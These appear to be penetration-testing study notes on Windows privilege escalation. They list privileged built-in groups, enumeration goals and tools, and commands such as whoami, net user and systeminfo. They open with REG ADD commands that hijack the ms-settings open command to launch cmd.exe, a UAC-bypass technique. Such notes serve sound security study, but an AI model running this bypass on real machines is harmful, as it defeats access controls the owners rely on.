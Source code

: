 ```bat
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

Example **Built-in groups** include Administrators, **Backup Operators**, **Remote Desktop Users**, and **Remote Management Users**.

Members of:
- **Backup Operators** can backup and restore all files on a computer, even those files they don't have permissions for.

- **Remote Desktop Users** can access the system with RDP

- **Remote Management Users** can access it with WinRM.

## Enumerating Windows

Key pieces of information to obtain:

- Username and hostname
- Group memberships of the current user
- Existing users and groups
- Operating system, version and architecture
- Network information
- Installed applications (Check 32-bit and 64-bit Program Files directories located in `C:\` and Downloads directory)
- Running processes

**Automated Enumeration tools**:
- winPEAS, https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
- Seatbelt, https://github.com/GhostPack/Seatbelt
- JAWS, https://github.com/411Hall/JAWS


```bat
whoami /groups
net user
net user steve
net localgroup
```

```pwsh
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-Process
```

```bat
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

ipconfig /all

route print
```
